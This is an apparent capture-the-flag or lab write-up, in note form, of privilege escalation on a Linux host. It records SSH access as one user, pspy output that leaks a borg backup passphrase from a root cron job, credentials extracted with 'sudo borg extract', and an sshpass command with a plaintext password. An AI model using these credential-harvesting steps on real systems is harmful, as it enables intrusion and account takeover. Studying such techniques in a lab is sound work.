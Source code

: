 - Got access via ssh as sarah
- Found file authorized_keys:
	```
	ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIESFGA7D4B3Cvr5H8Dng2DvlYrVWwfV/7GWhjAhsWegD tests@hat-work
	```
- Ran pspy:
	```
	MD: UID=0     PID=10742  | /usr/bin/python3 /usr/bin/borg create /opt/borgbackup::usb_1739226903 /media/usb0
	```
	```
	CMD: UID=0     PID=10741  | /bin/sh -c BORG_PASSPHRASE='xinyVzoH2AnJpRK9sfMgBA' borg create /opt/borgbackup::usb_1739226903 /media/usb0 
	```
	```
	CMD: UID=0     PID=10738  | /usr/bin/python3 /usr/bin/borg delete /opt/borgbackup::usb_1739226423 
	```
	![[Pasted image 20250210174015.png]]
- Got creds using:
	```
	sudo borg extract /opt/borgbackup::home --stdout
	```
	```
	"user": "amy",
	"pass": "0814b6b7f0de51ecf54ca5b6e6e612bf"
	```
	```
	sshpass -p "Rb9kNokjDsjYyH" rsync andrew@172.16.6.20:/etc/ /opt/backup/etc/
	```
- Got access as amy:backups1 using above creds, she has root access
